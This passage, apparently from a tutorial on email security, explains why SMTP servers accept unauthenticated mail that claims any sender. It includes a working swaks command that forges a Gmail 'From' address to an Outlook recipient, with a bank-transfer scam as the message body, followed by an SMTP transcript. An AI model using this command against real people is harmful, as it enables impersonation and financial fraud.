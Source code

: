 ![](https://paper-attachments.dropbox.com/s_22872381B5E0C682806D56C31A547CD4B1E74782917704884319BBD6C1B203D3_1588310134582_image.png)


The actual content of the message in MIME format would be something like below.
      
```
Date: Sat, 25 Apr 2020 17:15:29 +0530 (IST) 
From: rbkrbkrbkrbk7@gmail.com 
To: admin@testkanha2.onmicrosoft.com 
Message-ID: <459848100.0.1587815129693@[192.168.1.2]> 
Subject: Spoof Me If You Can 
MIME-Version: 1.0 
Content-Type: text/plain; charset=us-ascii 
Content-Transfer-Encoding: 7bit

This is a sample email message. Email messages consists of header part and one or more body parts.
```
      
 Now consider the difference between Step 1 and Step 2. Both uses SMTP. The difference is, in Step 1,  the email client uses credentials  of Alice to authenticate with the Gmail Server. The Gmail Server validates the password sent. It knows for sure that message is coming from Alice. So it accepts the message for delivery.
 
In Step 2, there is no authentication.  When the email server of the domain "outlook.com" receives the message from  Gmail’s MTA,  the "MAIL FROM" smtp command and the "FROM" header in the MIME message will have "user_alice@gmail.com". But there is no way for it to verify that the message was indeed sent by "Alice".  If "outlook.com" email server enforces that it will accept message from only authenticated users, no one outside of "outlook.com" would be able to send messages to users using "outlook.com" email address,  as "outlook.com" email server will not be having password information of users using other email service providers.
 
So, it is possible for any one to connect to "outlook.com" email server and submit a message that has "user_alice@gmail.com" in the "MAIL FROM" smtp command and the "FROM" MIME header. 

#### A SWAKS command to send messages without authencation
```
>./swaks --server outlook-com.olc.protection.outlook.com:25 \
--to user_bob@outlook.com --from "user_alice@gmail.com" \
--h-from "User Alice<user_alice@gmail.com>"\
--h-subject "Need Urgent Help" \
--body "Stuck in airport. Lost my baggage. Need 2K urgently. Pls transfer to my a/c 12345" 
--tls
```
Any one can run the above  command and  Bob would see a message like below in his inbox exactly like the first message.


![](https://paper-attachments.dropbox.com/s_22872381B5E0C682806D56C31A547CD4B1E74782917704884319BBD6C1B203D3_1588310190961_image.png)


#### SMTP transcript of above command
```
EHLO automation1.localdomain
250-BO1IND01FT005.mail.protection.outlook.com Hello [34.200.131.8]
250-SIZE 157286400
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-BINARYMIME 
250-CHUNKING
250 SMTPUTF8
MAIL FROM:<rbkrbkrbkrbk7@gmail.com>
250 2.1.0 Sender OK
RCPT TO:<user_bob@testkanha2.onmicrosoft.com>
250 2.1.5 Recipient OK
DATA
```